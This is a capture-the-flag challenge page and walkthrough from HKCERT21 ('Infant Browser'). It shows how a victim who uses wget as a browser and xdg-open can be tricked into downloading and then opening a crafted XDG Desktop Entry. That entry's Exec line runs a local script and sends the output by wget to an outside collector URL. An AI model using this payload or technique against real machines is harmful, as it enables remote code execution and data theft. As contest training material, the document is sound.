 # 網絡安全隱患 (Infant Browser)


| Key | Value |
| --- | ----- |
| ID | 98 |
| Tags (Categories) | "#pwn", "#web", "#☆☆☆☆☆" |
| Challenge release timestamp | 2021-11-12T10:00:00.000Z |

# YouTube

| Key | Value |
| --- | ----- |
| Singer (Challenge Author) | ozetta
| Link | https://youtu.be/lcbMp5kWUUE

# Description

http://chal-s1.hkcert21.pwnable.hk:28098/
http://chal-s2.hkcert21.pwnable.hk:28098/

What if someone uses wget as the browser?
Flag: find the flag in the root directory with name `/proof*.sh`

**NOTE:** Both links serve the same challenge. You may choose any one of them.

**UPDATE (12 Nov 21:52)**: Updated link to challenge server. 

---

* The objective of this kind of challenges is to send a malicious webpage / URI to steal sensitive information or even execute arbitrary code in the victim's machine. Unlike XSS where the impact is limited to the victim's account in a particular website, a browser / desktop app exploit, or client-side attack in general, may compromise the entire victim's machine.

* In this challenge, we are allowed to send the victim an arbitrary URI and they will open it with `xdg-open` (just like clicking on links in a browser). To trick a victim to execute arbitrary code, we can craft an XDG Desktop Entry, which could specify what command to be executed.

* But before we can trick the victim to open the Desktop Entry, we need to write the Desktop Entry to somewhere in the local filesystem. This could be done since the victim is using `wget` as the browser, and the current working directory is writable.

* For example, you can upload a Desktop Entry file named `example.desktop` to your website (e.g. Github page), and then ask the victim bot to download it
```
[Desktop Entry]
Exec=sh -c "wget https://xxxxxxxxxxxxxxx.m.pipedream.net/?`/proof*.sh`"
Type=Application
```
* If this Desktop Entry is opened, then it will execute the command after `Exec=`, which will first execute `/proof*.sh` and obtain the output, and execute `wget https://xxxxxxxxxxxxxxx.m.pipedream.net/?(the output from executing /proof*.sh)`, which allows you to capture the flag

* Once the `example.desktop` file is written, you can ask the victim bot to open `file:///tmp/example.desktop` so that they will execute the code you planted before
* But make sure you use a unique filename for the Desktop Entry file since the challenge platform is common to every participants

* Too easy for you? Now you can try babyURIi...

### Attachments

- [infantbrowser_6939c231042fd155a512940cd0982f76.zip](https://file.hkcert21.pwnable.hk/infantbrowser_6939c231042fd155a512940cd0982f76.zip)